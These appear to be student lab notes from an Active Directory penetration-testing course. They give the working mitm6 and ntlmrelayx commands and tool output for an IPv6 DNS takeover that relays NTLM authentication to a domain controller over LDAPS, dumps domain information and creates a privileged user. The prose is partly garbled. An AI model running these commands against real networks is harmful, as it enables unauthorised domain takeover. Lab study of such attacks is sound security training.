

We to set the domain using the mitm6
Command : mitm6 -d marvel.local
where d stands for domain
Also have to setup a relay attack
-6 stands for IVP6
-t stands for target will point to our domain controller's ip address
and we have configured the certificate so that we can use ldaps
┌──(root㉿kali)-[/opt/mitm6]
└─# ntlmrelayx.py -6 -t ldaps://192.168.205.137 -wh fakewpad.marvel.local -l lootme
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation
[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server
We have to reboot our windows 10 machine (i.e. the punisher in our case) to trigger the event and will wait for something before we login as ADMIN
We can see it is trying to Enumerate user's privileges which we take a while and domain info is dumped into Lootdir

We succeded with an computer and the computer were able to accessing the domain controller via Ldaps logging into it and dumpping any useful information to us.
Now we will login into a computer (i.e. an admin login to a computer) and was able to make user there.

We got a new user made for us and can see the user name and password above but they have set up the policy for us to have exclusive priveliges for the access control
It stores the aclpwn here so that we can restore the acl for what it was before
This is a fantastic attack and it's not the only thing it can do (i.e. we can ot only add a new user but can also add a new user)
Resources for this video:
mitm6: https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/
Combining NTLM Relays and Kerberos Delegation: https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/